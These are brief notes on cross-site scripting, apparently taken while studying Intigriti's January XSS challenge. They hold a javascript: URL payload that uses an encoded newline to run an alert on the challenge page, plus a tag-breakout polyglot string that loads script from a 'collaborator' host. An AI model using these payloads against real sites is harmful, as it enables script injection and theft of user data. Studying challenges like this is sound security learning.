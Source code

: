 - Intigriti's January XSS Challenge Explained (youtube)

==Split href attribute `<a href="r=*";==
```url
javascript.challenge-0121.intigtiti.io/?r=Javascript:alert(flag.innerHTML)/%0aid=origin

%0a -> encoded url for new line (burp decoder used!)
```
==Nahamsec
';"/></textarea></script/src=//collaborator/
